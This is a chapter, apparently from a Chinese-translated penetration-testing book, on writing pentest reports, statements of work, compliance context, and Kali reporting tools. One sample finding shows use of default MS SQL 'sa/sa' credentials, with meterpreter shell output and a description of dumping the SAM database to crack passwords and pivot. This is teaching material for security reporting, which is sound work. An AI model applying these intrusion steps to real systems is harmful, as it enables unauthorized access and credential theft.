网络工程师安装网络，程序员创建应用程序，而审计员编写文档。作为一名网络渗透测试员，你默认就是一名审计员。与会配置路由协议的网络工程师或创建应用程序的程序员不同，你的价值将基于你的写作水平。换句话说，学习如何写作。写作涉及科学与艺术。如果你正试图寻找一种一致的风格，本书的作者推荐**美国语言协会格式**，即广为人知的 **MLA**。MLA 格式是一种易于使用的写作风格，被大多数中学作为写作标准。由 H. Ramsey Fowler 和 Jane E. Aaron 编写的名为 *The Little, Brown Handbook* 的参考指南，是一本关于如何在写作时正确使用 MLA 的优秀参考指南。作为一名渗透测试员，最终作为一名审计员，你提供的价值将根据你的发现是如何呈现的来评判。渗透测试报告失败的首要原因是语法错误或拼写错误。第二原因是逻辑不通或风格不当。这就是为什么我们强烈建议让与你的项目无关的人员审查你的报告，以提供局外人的视角。这可能包括非技术背景的审查人员。

# 渗透测试执行报告

你如何呈现结果将是对未来业务影响最大且最具决定性的因素。一旦你熟悉某种写作风格，就会有更适合技术审计的风格和流程。这包括来自 PCI 以及其他特定特定组织（如 CoBIT 和 ITIL）的行业标准。最终，你报告的主题将遵循你所审计组织所接受的企业治理标准。还要记住，渗透测试报告会被许多人看到，并且被引用的时间比你预期的要长得多。

客户想要知道自己有多脆弱，以及修补漏洞的要求以减少他们受攻击的整体安全风险。报告的格式和语气可能会导致负面反应或对数据造成损害。与漏洞关联可能导致工作丢掉。相反，如果报告中的语言没有恰当地强调修复的至关性，一个关键的安全漏洞可能会被忽视。最好的服务是在开发执行报告时提供平衡和技术专业能力，使最终结果能够对领导层和技术人员产生积极影响。

一个很好的起点是查看哪些法规、标准和指令对你的客户很重要。将客户要求的要求与行业指令相结合是本章的第一个主题。接下来，我们将查看用于交付服务计费的不同服务模型。之后，我们将关注执行报告的不同文档格式类型，以便你在服务交付结束后留下良好的印象。本章将以一些报告作为结束，并涵盖 Kali Linux 中可用的剩余报告工具。

## 合规性

客户的预算有限，通常情况下，安全并不是一个需要主动购买的首要支出目标。根据我们的经验，在发生糟糕事情导致支出之前，客户会将钱花在其他技术领域。当许多客户在维护现有设备以及跟上最新技术方面已经足够吃力时，提供像渗透测试这样评估安全的服务会变得更具挑战性。一个简单的类比是，当人们购买笔记本电脑时，他们看的是安装什么软件来实现功能，而不是防御（即购买 Microsoft Word 而不是杀毒软件）。当同一台笔记本被感染时，用户就会停止考虑功能性软件，优先考虑安全软件以移除恶意程序。

# 第 8 章

将你的服务提升至购买优先级列表顶端的一种方法是与业务指令保持一致。客户更倾向于购买符合业务义务的服务，这使得投资话话更容易合合理化。许多行业指令对审计失败有严重的后果，影响范围从罚款到终止工作不等。将你的交付物与强制性法规保持对齐是证明你服务价值的有力选择。

关于行业合规的重要术语如下：

-   **基线 (Baselines)**：它们被用于创建满足策略需求所需的最低安全级别。基线可以是配置、架构或程序，它们可能无法反映业务流程，但可以进行调整以满足这些需求。你可以将基线作为抽象来开发标准。
- ****标准 (Standards)**：它们是支持高层策略的强制性要求。标准可能要求使用特定的技术，包括品牌、产品和协议。一个例子是在具有自动化访问控制的基线基础上，创建一个使用 Cisco Identity Services Engine 的 802.1x 标准。
- **指南 (Guidelines)**：它们是建议而非强制要求。可以将指南比作标准；然而，没有任何强迫人们遵循它们。一个例子是控制防火墙中开放哪些端口，而不是允许所有流量。

## 行业标准

许多你的客户被要求遵守的重要行业标准。以下列表通常用于证明产品和服务采购的资金：

-   **健康保险流动性与责任法案 (HIPAA)**：它要求采取适当的控制措施，以确保医疗交易和管理信息系统保护个人身份的电子健康信息。不符合 HIPAA 规定相关的罚款风险较低；然而，不满足 HIPAA 要求可能会导致重大的附带风险，例如民事责任和品牌损害。
-   **联邦信息处理标准 (FIPS)**：它们是美国政府机构和承包商开发的用于保护传输信息的计算机安全标准。


-   联邦信息安全管理法 (FISMA) / 美国国家标准与技术研究院 (NIST)：FISMA 和 NIST 特别出版物 800-153 和 800-137 为确保支持联邦运营和资产的信息安全控制措施的有效性提供了一个全面的框架。

-   北美电力可靠性协会 (NERC)：该机构开发了强制性的关键基础设施保护 (CIP) 安全标准，旨在保护控制或影响北美大电电系统可靠性的关键基础设施资产。这些标准已获得联邦能源监管委员会 (FERC) 批准，对于所有拥有国家大电网络的组织来说，遵守这些标准是强制性的。

-   支付卡行业数据安全标准 (PCI DSS) 和支付应用数据安全标准 (PA-DSS)：这些是针对处理借记卡、信用卡、预付卡、电子钱包、ATM 和 POS 卡持卡人信息的组织的标准。

-   萨班斯-奥克斯利法 (SOX)：该法强制要求公司进行严格的改革，以改进财务披露并防止会计欺诈。

## 专业服务

向客户收取服务费的最常见策略是“交钥匙工程”（Turnkey）和“工时材料”（Time and Material）。交钥匙工程意味着所有服务都有固定成本，只有在请求约定工作范围之外的服务时，才能进行调整。通常情况下，对交钥匙工程的修改需要提交单独的变更请求，客户在包含额外计费前必须接受该请求。

交钥匙工程将失去利润的风险转嫁给了服务提供商，因为成本并不会根据满足工作范围所需的劳动力量进行调整。这意味着服务提供商有机会在拟议的时间内完成任务，从而获得额外利润。当服务成本超过劳动力成本时，这也可能适得其反。因此，为拟议的服务定义一个可行的工作范围至关重要，并预留一些额外的缓冲时间以应对不可预见的事件。

# 第8章

客户倾向于根据对预期成本的规划能力选择交钥匙服务。客户可以专注于实现所请求服务的预期结果，并在任务在不产生额外劳动力成本的情况下未完成时要求服务提供商负责。像美国政府这样的大型机构，会在正式的征求报价 (RFP) 公告中要求交钥匙工程服务。在大多数情况下，采购部门会编写指南，根据最佳价值、价格和满足要求的项目等因素来确定由谁授予该项目。我们见过在某些情况下 RFP 会产生适其反反，糟糕的服务会导致更多问题，且成本远高于之前的最佳价值方案。为了帮助客户避免这种情况，我们建议与客户合作，制定请求只有合格候选人才能满足的特定条款，以迫使最佳价值和成本作为授予指标时达成平衡。

服务的另一种常见计费方法是“工时材料”。工时材料方案按使用的小时收费。通常，服务提供商会为不同的计费类别列出不同的小时率，例如，项目经理可能是每小时 100 美元，而高级工程师可能是每小时 200 美元。将服务划分为带有预计小时的任务是常见做法，这有助于客户在项目进行期间为预期费用做准备。

工时材料将高成本服务的风险转嫁给了客户，因为超过任务订单的服务将继续计费。客户的收益是，如果他们可以承担部分工作，可能花费得更少，并且可以避免交钥匙方案中常见的额外缓冲小时计费。客户的缺点是，服务提供商没有动力完成项目，可能会推迟完成时间。

作为专业服务提供商，建议在建立业务时目标是开发出交钥匙服务产品。定义良好的业务可以与客户建立正确的预期，以避免服务范围模糊。在您的经验中，客户并不会为服务提供空白支票，并且在申请预算前希望获得一个固定成本。

> 定期，客户可能会要求用其员工替换可计费成员，以降低项目总成本。例如，客户可能会要求使用内部项目经理进行规划。这引入了资源管理 own风险，可能导致问题并产生耗尽预期利润的过度小时数。我们建议避免此类场景，因为很难控制不直接属于你组织的团队成员。

## 文档编制

开发交付物可以分为几个阶段，如下图所示。第一阶段是项目评审 (Project Review)。在此阶段，服务提供商将审查工作说明 (SOW)、客户业务目标、关注领域以及拟议提供的价值。所有内容加额外材料将用于构建报告模板。

下一步是使用信息收集阶段 (Information Collection)填充报告模板。采集的信息包括识别出的设备、使用的流程、发现的漏洞、漏洞验证、建议的修复措施和其他数据。

一旦采集了所有数据并与模板对齐，第三阶段是准备初稿 (First Draft)。此草稿不会面向客户，并将包含尽可能多的数据。最后是评审阶段 (Review)，旨在将报告精简为最有力的数据，并进行专业化的调整以满足业务需求。最佳实践是让技术作者和专业写作人员共同编辑草稿，以确保其同时满足执行层和技术层的要求。

| 项目评审 | 信息收集 | 初稿 | 评审与定稿 |
| :--- | :--- | :--- | :--- |

> 工作范围应始终考虑到创建文档所需的小时。通常，60% 的报告撰写时间将用于草稿，而文档评审和项目验收将使用剩余的小时。请确保将文档生命周期计算到您的项目时间表中，以避免收入损失。

## 报告格式

无论项目类型如何，服务交付物中都应该包含某些项目。所有文档都应说明其目的、展示您的品牌、识别相关方、列出已执行的工作，并以预期结果结束。本节将提供有关如何专业地满足格式目标的一些提示和示例。

## 封面

封面至少应提供报告名称、版本、日期、作者、服务提供商名称和目标方。封面还可以列出额外项目，如文档安全密级。

## 保密声明

在大多数渗透服务期间获得的信息都是敏感的。识别保护活动期间采集信息的预期安全级别至关重要，以及谁允许查看此类数据。某些级别的可能可能特殊的处理或安全的存储地点，例如用于存储机密材料的敏感隔离设施 (SCIF)。违反数据隐私可能会产生财务、品牌和法律后果。

保密声明应说明文档涉及的各个级别、谁有权查看、哪些可以和不可以复制、分发权以及其他法律。我们建议让具有法律背景的人员制定您的标准保密声明。

示例 1：保密声明

本文包含来自服务提供商的机密和特权信息。信息仅供客户内部使用，以了解其组织的安全状况。通过接受本文，客户同意对本文内容保密，不向任何方披露、复制或分发（除非是经请求书面确认的根据本文建议直接为客户提供服务或产品的方）。如果您不是目标接收者，请注意任何披露、复制或分发本文或其部分都是禁止的。

示例 2：保密声明

此机密信息作为此次咨询活动的交付物提供给服务提供商。本文的唯一目的是为客户提供此次活动的结果和建议。每位接收者都同意将根据本咨询代理与服务提供商之间的协议遵守分发限制。


## 文档控制

在交付提案中列出版本和编辑内容是非常关重要的。
很可能有许多具有不同技能背景的人员将审阅文档。
通过日期和修改类型标记更改，将帮助读者利用最新版本。

| 版本 | 日期 | 作者 | 备注 |
|---|---|---|---|
| 1 | 13/5/1 | Josh Wink | 创建 |
| 2 | 13/5/10 | Mark Farina | 审阅 |
| 3 | 13/5/24 | Jeff Mills | 审阅 |

## 时间线

时间线提供了项目每个阶段的预计小时数估算。时间线应包含阶段名称、待完成的任务以及该阶段的预计持续时间。通常，持续时间以计费小时显示，以便客户估算项目每个阶段的成本。建议包含哪些阶段是强制性的表述，以避免在项目启动时出现移除关键阶段的要求。

以下是估算的时间线和高层实施计划：

服务提供商将在收到已签署的工作说明书（SOW）两周后开始本次合作，并取决于资源情况。如果客户请求提前开始日期，则必须与服务提供商、项目管理和客户团队进行协商。

项目启动阶段和修复演示阶段对于所有其他阶段都是强制性的。

# 第章

| 合作阶段 | 任务（高层） | 预计持续时间 |
|---|---|---|
| 项目启动会议 | 工作说明书审阅、交付物配置。业务和技术问答、边界审查。先决条件 | 8 小时 |
| 网络评估 | 工具准备和安装。足迹探测、策略审查、映射。 | 16 小时 |
| 渗透测试 | 扫描设备。审查现有网络基础设施 / 识别可利用的系统并在目标系统上执行渗透测试。 | 32 小时 |
| 修复演示 | 报告分析、建议和演示 / 演示发现和安全影响分析（包括建议） | 16 小时 / 6 小时 |
| | 项目结束 | 2 小时 |

## 执行摘要

执行报告的目标是提供关于执行服务原因的高层概述。执行摘要应涵盖导致解决问题的原因、问题状况以及建议的解决方案和预期结果。执行报告不需要技术细节，应针对领导层而非技术人员。

示例 1：执行摘要

背景：

客户聘请服务提供商对其系统进行漏洞评估和渗透测试。合作的目的是通过利用服务提供商经过验证的测试方法，识别其中潜在的安全漏洞，从而评估客户网络和系统的安全性。该项目在合作期间，由服务提供商专家团队在客户网络网段的多个系统上进行。

# 渗透测试执行报告

本项目包含对九（9）台内部主机的渗透测试。在测试过程中，服务提供商专注于以下方面：

- 尝试在对环境没有预验了解或不通知管理员的情况下，确定可以发现并利用哪些系统级漏洞。
- 尝试利用发现的漏洞并访问可能存储在系统上的机密信息。
- 记录并报告所有发现。

所有测试都考虑了系统实施的实际业务流程及其潜在威胁；因此，此次评估的结果反映了面对在线黑客的真实暴露水平状况。

本文档包含该评估的结果。

项目信息：

本次评估的主要目标是对比客户网络和系统中存在的安全缺陷进行分析。开展评估旨在识别可能的漏洞，并为修复漏洞提供可操作的建议，以为环境提供更高水平的安全保障。

服务提供商使用了其经过验证的渗透测试方法来评估系统的安全性并识别潜在的安全漏洞。

示例 2：执行摘要

服务提供商委托客户对其网络中指定数量的系统进行网络渗透测试。这些系统通过主机号 192.168.1.X、10.1.1.X 和 172.16.1.X 识别。合作的目的是识别并优先处理已识别系统上的安全漏洞。合作于[开始日期]启动，包括四（4）天的测试、分析和文档编制。

## 方法论

强烈建议提供一份关于你们如何提供服务的概述。亮点应包括你们合作每个阶段的流程、使用的工具以及你们如何识别威胁。在这一部分，开发展示流程图和资源请求结构的图表是常见做法。

证书有助于展示服务提供商提供高质量结果的能力。某些证书可以突出公司遵循经过验证的业务流程的能力，例如国际标准组织（ISO）认证（例如 ISO 9001 或 14001）。其他证书可能侧重于特定技术，例如拥有安装所请求技术认证的工程师。流行的渗透测试认证包括认证道德黑客（CEH）和 GIAC 渗透测试员（GPEN），这些有助于提升相关资源的资质。

示例：方法论

服务提供商使用了自定义和公开的工具，从黑客的角度获取网络安全态的视角。这些方法让客户了解威胁其信息的风险，以及保护这些系统的内部控制的优缺点。结果是通过使用公开信息对客户内部网络进行剖析分析、映射网络架构、识别主机和服务、列举网络和系统级漏洞、发现意外主机来实现并实施的。

## 详细测试程序

本节涵盖了服务合作的细节。目标读者通常是技术人员，目标是就已关注的领域提供尽可能的信息。客户可能希望对突出项目提出挑战并重复使用的步骤以验证漏洞，这意味着他们想知道事物是如何发现、访问和利用的。这些数据还验证了工作范围中标记的所有网络区域已由服务提供商处理。

通常，涉及的内容包括发现、映射、漏洞评估、架构分析、利用和报告。服务提供商在任何区域的深度取决于工作说明书中定义的重点。

例如，

服务提供商能够使用 MS SQL 的默认管理员凭据访问旧 EMR 主机。这允许我们创建管理员帐户、暴露系统进程、用户帐户、数据库文件，并启用文件的传输和执行。具有此类访问权限的攻击者可能会破坏依赖此主机的所有业务流程。

服务提供商还能够使用服务器消息块（SMB）空用户帐户从域名服务器（DNS）中枚举用户帐户和用户组。攻击者可以使用这些信息对客户员工进行针对性钓鱼攻击，或进行暴力破解密码攻击。成功获取管理员凭据以创建其他用户帐户并将其分配给目标业务规则的攻击者可以使用用户组信息。

总体而言，发现结果识别可以通过简单的设备/软件配置设置以及相应策略来缓解的威胁。

漏洞评估和渗透测试总结：

客户为服务提供商下表所示的八（8）个 IP 地址。该范围已被扫描，以确定相关主机上的开放端口和服务。


## 第 8 章

| IP 地址 | 主机名 | TCP 端口 |
|---|---|---|
| 192.168.10.20 | SERV001 | 42,53,88,135,139,445,464,53,636,1025,1071,1075,1145 |
| 192.168.10.23 | SERV542 | 135,139,445,1433,3300 |
| 192.168.10.154 | SERV239 | 135,139,445,1433,3389 |
| 192.168.10.204 | SERV777 | 80,135,445,1443 |
| 172.18.10.100 | SERVSQL123 | 135,139,445,1433,1434,3372,3389,5022,8400,8402 |
| 172.18.10.101 | SERVSQL124 | 135,139,445,1433,1434,3372,3389,5022,8400,8402 |
| 172.18.10.105 | database.intern.com | 80,443 |
| 172.18.10.200 | corp.com | 80 |

## 发现结果总结

发现结果总结（Summary of findings）是建议的核心内容。在这里解释了从服务中发现的结果，包括识别出的项目可能对业务产生的影响。这些结果的格式将决定客户的反应，因此不仅要关注说了了什么，还要关注数据呈现的方式。

最佳实践是包含风险排名，帮助客户理解如何应对识别出的项目。常见的排名特征有可能性、风险评估、图表、颜色方案等。我们建议对所有单独识别出的项目都包含总结图表和详细章节。为了支持你的发现，最佳实践是引用公共来源，说明为什么识别出的资产存在问题，以进一步验证你的主张。公共来源可以是合规性违反、未达到强制标准，或来自权威来源对已知漏洞的解释。

示例：

- **严重**：对关键业务流程的直接威胁
- **高**：对关键业务流程的间接威胁 / 对次要业务流程的威胁
- **中等**：对业务流程的间接/部分威胁
- **低级**：不存在直接威胁；漏洞可能与其他漏洞结合利用

## 渗透测试执行报告

根据系统中发现的最高风险等级，测试系统的当前风险水平在测试期间为**严重**。如下截图所示，测试期间共识别出一（1）个**严重**漏洞、两个（2）个**中等**漏洞和两个（2）个**低级**漏洞：

| 漏洞 | 严重程度 |
|---|---|
| 漏洞 A | 严重 |
| 漏洞 B | 中等 |
| 漏洞 C | 中等 |
| 漏洞 D | 低级 |
| 漏洞 E | 低级 |

| 评估结果总结表 |
| 扫描类型 | 总计 |
|---|---|
| 主机 | 9 |
| 端口 | TCP, UDP, 1-65535 |

| 漏洞严重程度 | |
|---|---|
| 严重 | 1 (唯一:1) |
| 中等 | 2 (唯一:2) |
| 低级 | 2 (唯一:2) |

> **唯一**定义为在同一风险等级内发现的不同漏洞数量。例如，如果发现了五个高级漏洞，但其中三个是“唯一的”，那么某些漏洞存在于多个系统上。

## 漏洞

发现的漏洞应包含关于弱点来源的清晰描述、对业务运营的影响以及被利用的可能。报告还应列出漏洞是如何识别的，以及是否经过了验证（即该漏洞已被利用，还是仅在扫描期间被识别为可能的漏洞）。客户架构中的漏洞，可以包含一张通过捕获流量流来解释问题的图表，以便客户对建议进行评估。

## 交付中针对识别漏洞可能包含的细节如下：

- 漏洞名称
- 业务关键性
- 漏洞描述
- 技术细节
- 受影响系统
- 受影响端口
- 建议操作

| 漏洞名称 | 使用默认凭据的 Microsoft SQL Server |
|---|---|
| 业务关键性 | 严重 |
| 漏洞描述 | 与旧 EMR 数据库相关的 Microsoft SQL Server 可以默认凭据 "sa/sa" 进行访问。攻击者可以利用这些 SQL 凭据获取底层操作系统的控制权。这种访问包括文件的上传和下载、在主机上创建/读取/写入/删除文件以及创建本地用户账户 |

技术细节
服务提供对主机 100.25.5.55 执行了漏洞扫描，发现 MS 系统管理员 (sa) 账户仍使用默认密码 "sa"。截图显示服务提供使用这些凭据访问了主机。

```
meterpreter > ipconfig
VMWare Accelerated AMD PCNet Adapter
Hardware MAC: 00:05:69:D2:1A:32
IP Address : 1
Netmask : 255.255.255.0
```

服务提供继续转储 SAM 数据库的内容。该数据库由 Windows NT 用于存储和检索用户凭据。通过这些信息，我们可以运行彩虹表或进行暴力破解攻击来破解所有这些账户的密码。如果这些密码中任何一个与其他系统的密码相同，我们就可以跳转到其他系统并同样破解它们。为了验证攻击者可以打开文件，服务提供确认它可以打开主机的目录外壳（shell）。

```
meterpreter > shell
Process 7924 created.
Channel 1 created.
Microsoft Windows (Version 5.2)
(C) Copyright 1985-2003 Microsoft Corp.

:\WINDOWS\system32>whoami
hoami

:\WINDOWS\system32>
```

## 渗透测试执行报告

除了漏洞系统外，你可能还想要包含一些通用发现以展示额外价值。例如，所有美国联邦机构都有要求展示额外价值。以下是建议的项目列表：

- 启动时的差异
- 对 IPv6 的支持
- 生命周期结束的设备
- 对 VoIP 的支持
- 符合 FISMA 标准的情况
- 序列号列表
- 网络拓扑

## 网络考虑与建议

本节解释了修复所发现问题的建议。修复措施有多个级别。有时是网络架构暴露了弱点，但有时是策略、配置或缺失补丁的漏洞。建议中包含的项目有：发现总结、高级和详细的修复建议、请求之外有用数据（如 IPv6 功能、网络设计变更、硬件/软件/补丁建议以及合规性总结）。


## 渗透测试执行报告

- **定期进行漏洞评估**：应定期开展漏洞评估，作为验证组织当前风险状态的手段。有关运行有效风险管理程序的指南，请参考 NIST SP 800-309。

- **为关键系统和网络包含高可用性**：在评估过程中，我们发现任务关键系统存在单点故障。最佳实践是在发生网络故障时开发备备方案。改进核心数据中心流量的一个示例如下所示，通过在数据中心网络中添加冗余系统。


## 附录

附录列出了与交付报告相关的额外信息，这些信息通常对主要结果并非至关重要。此部分供参考，可能包含扫描结果、截屏和其他信息。

示例：

附录 001- Nessus 漏洞扫描报告

<捕到的 Nessus 报告打印输出>

## 术语表

术语表用于定义建议书中使用的术语含义。这可以用于技术定义、说明所引合规性术语背后的需求，或其他可能需要进一步澄清的领域。

## 工作说明书 (SOW)

在提供渗透服务之前，你可能需要编写一份工作说明书 (SOW)，概述你将要执行的工作。这通常是你在启动项目之前希望与利益相关者完成的第一步。

在编写 SOW 时，我们建议你遵循最终将代表你报告结构的格式。工作说明书文档的基本格式包括：

- 执行报告：对你正在进行的工作、希望实现的目标以及你的目标受众进行高级总结。

SOW 执行摘要示例如下：

**服务提供方**很高兴向**客户**展示我们进行安全评估的方法。**客户**发起此次合作的首要目标是充分评估组织内部当前的风险水平和暴露情况，并侧重于开发和/或实施解决方案，以帮助减少关键威胁并最终降低相关风险。

响应**客户**的需求，**服务提供方**概述了一种有效的安全评估策略，该策略在提升许多类似组织的安全态方面已被证明非常成功。我们的方法从理解与评估相关的业务需求开始，随后对确定的范围内的现有基础设施进行详细的拓扑映射和基准测试。在完成基础设施发现后，我们开始对关键系统和网络设备进行系统的漏洞评估，以识别可能具有行为特性的威胁向量。随后将审查并执行仔细的利用方法，以识别已检测漏洞的关联性。在此阶段，可能会采用渗透测试和社会工程等技术。最后，在整个合作生命周期内，我们将进行每周状况汇报，回顾本周的活动并沟通未来几周的关键目标和任务。这为**客户**提供了一个机会，告知我们的工程师任何需要特殊考虑的系统升级。**服务提供方**提供可靠的项目专业知识，以确保我们在所有合作中实现卓越的运营和优质的客户体验，这也不例外。

**服务提供方**意识到持续评估和改进组织安全态势的一致需求，我们相信此次合作将通过减少风险和停机时间降低运营成本，同时为**客户**提供数据保护和品牌声誉利益。

## 渗透测试执行报告

此外，从此类活动中获得的见对于规划能够提高业务性能和盈利能力的未来服务至关重要。这些利益是持续的，并与列出的**客户**目标一致：

- 更好地了解**客户**的网络漏洞和安全风险

- 确定**客户**基础设施内的关键安全架构缺陷

- 评估与**客户**网站及外部应用程序相关的安全性

- 活动报告：所有已执行利用攻击的报告（提供三个级别的详细信息）。

- 主机报告：详细的主机信息，包括被攻破计算机的数量、每台计算机被利用的漏洞平均数，以及每台计算机上发现的漏洞的 CVE 名称。

- 漏洞报告：每台计算机上成功利用的漏洞与潜在漏洞的详细报告。

- 客户端渗透测试报告：每次客户端渗透测试的完整审计追踪，包括已发送的邮件模板、启动的利用程序、测试结果（成功或失败）以及关于被攻破系统的详细信息。

- 用户报告：客户端测试报告，说明哪些链接被点击、何时被点击以及由谁点击的。

## 外部渗透测试

应对应来自外部源的渗透测试给予特殊考虑。外部渗透测试 SOW 识别了你的目标以及你在攻击期间愿意采取的可能步骤。SOW 还定义了你将在何时停止测试或哪些情况超出范围。换句话之，SOW 为你提供了一个停止点。

接下来的示例显示了外部渗透测试总结。它包含了测试过程的简要概述，随后是带有分步操作说明的工作大纲。该示例还概述了客户和应用程序所有者的责任。

外部 Web 测试 SOW 示例：

## 第8 章

我们外部和 Web 渗透测试的核心目标是利用网络边界、Web 域和 Web 应用程序固有的安全缺陷。相邻的应用交付元素（包括后端数据库和中间件）也包含在该领域内并进行评估。我们在此阶段关注的常见漏洞和利用是与缓冲区溢出、SQL 注入和跨站脚本相关的。我们的工程师还可能对 Web 域进行手动导航，以提取其他敏感和关键数据。此外，根据**客户**的要求，DMZ 中的设备也将纳入此次渗透测试活动，以试图从逻辑上攻破 Web 应用程序域周围的防御。

详细测试程序：

**服务提供方**将针对 Web 应用程序完成以下测试程序：

- 根据客户的网站识别要测试的服务器，并爬取网站以获取发布的地址。
- 利用主流搜索引擎定位给定域的地址。
- 在 PGP 和 WHOIS 数据库中查找地址。
- 启动多个并发攻击以加速渗透测试过程。
- 通过仅安装在系统内存中的离散代理与被攻破的机器进行交互。
- 运行本地利用程序从内部攻击机器，而不是跨网络攻击。
- 分析自定义、定制化和箱箱型 Web 应用程序的安全漏洞。
- 使用动态生成的利用程序验证安全暴露，模拟黑客尝试各种攻击路径和方法。
- 通过命令行 shell 和数据库控制台与 Web 服务器文件系统和数据库交互，演示攻击的后果。
- 在不损坏 Web 应用程序或在目标服务器上运行代码的情况下执行渗透。

客户责任如下：

- 识别将进行 Web 评估的域。在渗透测试期间沟通维护和/或影响。
- 如果不是公开可用，确保范围内的域和边界设备的 Web 可访问性。


# 工作说明书（SOW）补充材料

资质与工具：客户通常会验证执行审计人员所持有的资质，以及可能用于完成任务的工具。在工作说明书（SOW）中提供这些信息可以增加信誉度和专业性。预先提供潜在的工具集也可以减少在使用在使用工具产生负面影响时，客户产生负面反应的可能性。

以下示例展示了一个表格，突出了渗透测试人员对将使用的工具的专长情况：

| 认证与资质 | 测试工具 |
|---|---|
| ISC2 认证信息安全专家 (CISSP) | Kali Linux |
| 国际电子商务顾问协会 (CEH) | Backtrack 5 RC3 |
| 信息系统审计与控制协会 (ISACA) | AirSnort |
| 认证信息系统审计师 (CISA) | ACrack |
| RSA 身份管理器 v8.0 | Airsnarf |
| RSA DLP 认证系统工程师 (CSE) | Airmagnet |
| RSA SecurID 选择/产品 | Core Impact |
| Cisco 认证互联网网络专家 (CCIE-RS, Voice, Storage, SP) | Saint |
| SAINT 认证工程师 | Rapid 7 |
| Qualys 认证工程师 | Qualys |
| Cisco 高级无线设计专家 | Metasploit |
| PMI 项目管理专业人士 (PMP) | Palisade |
| Cisco 高级安全领域专家 | eEye Retina |
| Cisco 高级无线领域专家 | Threat Guard |
| Cisco 主安全专家合作伙伴 | |

> 预先解决你认为可能出现的疑虑非常重要。我们的同事兼朋友 Willie Rademaker 有句名言：“总是把鱼甩在桌子上”。换句话说，避免在项目范围确定时出现惊喜。如果你认为可能存在争议点，请面对面解决。惊喜是留给生日的，而不是业务的。

# Kali 报告工具

Kali Linux 包含一小部分报告工具，用于组织团队捕获信息的方式，以及一些加密实用程序。以下是对你的渗透测试实践有帮助的一些工具的概述。

## Dradis

Dradis 是一个用于信息共享的开源框架。Dradis提供了中心化的信息库，用于跟踪已完成和仍需完成的任务。Dradis 可以从团队成员处收集信息，提供如 Nessus 和 Qualis 等工具，并以漏洞列表的形式导入信息。

要打开 Dradis，导航至 Reporting Tools | Documentation 并选择 Dradis。Dradis 使用标准浏览器访问，简化了不同人员小组之间的协作。要启动会话，为服务器选择“New Project”并提供一个将在团队成员之间共享的密码。要登录，创建一个名称并提供密码。这将你你进入主仪表。查看向导程序和演示视频，以了解更多如何在你的服务中使用 Dradis。

## KeepNote

KeepNote 是一个记笔记应用程序。你可以存储许多类型的笔记，并使用具有富文本和图像格式的笔记本层级结构快速查看所有内容。可以在 Reporting Tools | Documentation 下找到 KeepNote。

## CaseFile

CaseFile 是一种视觉化智能应用程序，用于确定现实世界的关联。这使得调查中的信息收集和关系分析变得简单。

# MagicTree 是一种渗透测试人员生产力工具，旨在数据整合、外部命令执行和报告生成。信息以树形结构整合，便于识别以往练习的结果并为报告目的进行格式化。

## CutyCapt

CutyCapt 用于将网页渲染捕获为位图和矢量格式，包括 SVG、PDF、PNG、JPEG、TIFF、BMP 和 GIF。

## 示例报告

以下是你可以作为模板、为客户构建交付物的示例报告：

来自 SERVICE PROVIDER 针对 CUSTOMER 的渗透测试报告：

> 本文档包含来自 SERVICE PROVIDER 的机密和受特权保护的信息。这些信息仅供 CUSTOMER 私自使用。通过接受本文档，你同意对内容保密，并且在没有获得 SERVICE PROVIDER 书面请求和确认的情况下不复制、披露或分发这些内容。如果你不是预期的接收者，请注意严禁对本文内容进行任何披露、复制或分发。

文档详情：
公司：CUSTOMER
文档：渗透测试报告
日期：
分类：公开
收件人：公司，姓名，职位
文档历史：
日期，版本，作者，注释

1.0 草稿
2.0 审核

目录：
- 1 执行摘要 .................................  4
- 1.1 摘要 ................................................................ 4
- 1.1.1 方法 ...................................................... 4
- 1.2 范围 ............................................................ 5
- 1.3 关键发现 ................................................... 6
- 1.3.1 漏洞 A ........................................ 6
- 1.3.2 漏洞 B ............................................ 6
- 1.3.3 漏洞 C.................................................. 7
- 1.4 建议 ........................................ 8
- 1.5 总结 ................................................................. 10
- 2 技术报告 ............................................ 12
- 2.1 网络安全 ................................................... 12
- 2.1.1 项目 1 ................................................ 14
- 2.1.2 项目 2 ................................................................ 14
- 2.2 Web应用程序漏洞 ................................ 16
- 3 结论 ............................................ 21
- 附录 ................................................ 22

执行摘要

1.1 摘要
CUSTOMER 已分配 SERVICE PROVIDER 执行 <domain> 的季度渗透测试任务。

本次渗透测试是在 <Date> 期间进行的。关于每个任务和我们发现的详细报告描述如下。

渗透测试的目的是确定工作范围内指定的服务器的配置和 Web 应用程序的安全漏洞。测试是模拟攻击者或具有恶意意图的用户进行的。

1.1.1 方法
- 执行广泛扫描以识别潜在的暴露区域和可能作为入口的服务。
- 执行针对性扫描和调查，以验证从扫描发现的目标。

# 渗透测试执行报告
- 测试组件以获取访问。
- 识别并验证漏洞。
- 根据威胁级别、损失可能和利用可能性对漏洞进行排序。
- 执行研发活动以支持分析。识别性问题并建议解决方案。
- 提供增强安全的建议。
- 知识传递。

在网络安全检查期间，我们尝试探测各个服务器上的端口并检测带有现有安全漏洞的服务。在 Web 应用程序层面，我们检查了 Web 服务器的配置以及 Web 应用程序本身的逻辑错误。

## 1.2 范围
本次渗透测试的范围限于以下 IP 地址。

<IP 地址列表>
<IP 地址列表>
<IP 地址列表>

## 1.3 关键发现
渗透测试期间发现的关键问题总结。

### 1.3.1 漏洞 A
发现的漏洞。

修复漏洞的建议。

### 1.3.2 漏洞 B
发现的漏洞。

修复漏洞的建议。

### 1.3.3 漏洞 C
发现的漏洞。

修复漏洞的建议。

## 1.4 建议


服务提供商建议客户制定一项行动计划，以解决在此评估期间发现的问题。

报告中的建议分为战术性或策略性。战术性建议是短期修复，旨在缓解紧迫的安全隐患。策略性建议关注整体环境、未来方向以及安全最佳实践的引入。以下是建议的亮点：

### 1.4.1 战术性建议

- 建议 1
- 建议 2
- 建议 3
- 建议 4
- 建议 5

### 1.4.2 策略性建议

- **主动安全评估：** 作为安全最佳实践的一部分；客户应确保对其面向互联网的基础设施的任何重大更改都进行另外部安全评估。这是一项预防措施，以防止根据本文档建议进行的更改可能产生的影响。
- **入侵检测/防御 (IDS/IPS)：** 暴露在潜在恶意流量的网络应实施检测入侵的能力。针对该网络调查 IDS 解决方案。
- **自动化网络访问控制：** 最佳实践是自动化控制谁和什么允许特定的网络访问。

## 1.5 表格摘要

下表总结了系统的漏洞评估情况：

| 类别 | 说明 |
| --- | --- |
| 系统漏洞评估摘要 | |
| 活跃主机数量 | 100 |
| 漏洞数量 | 35 |
| 高、中、低严重性漏洞 | 21 6 8 |

## 渗透测试执行报告

## 2.1 网络安全

### 2.1.1 项目 1

描述：
运行中的服务：SMTP, HTTP, POP3, HTTPS

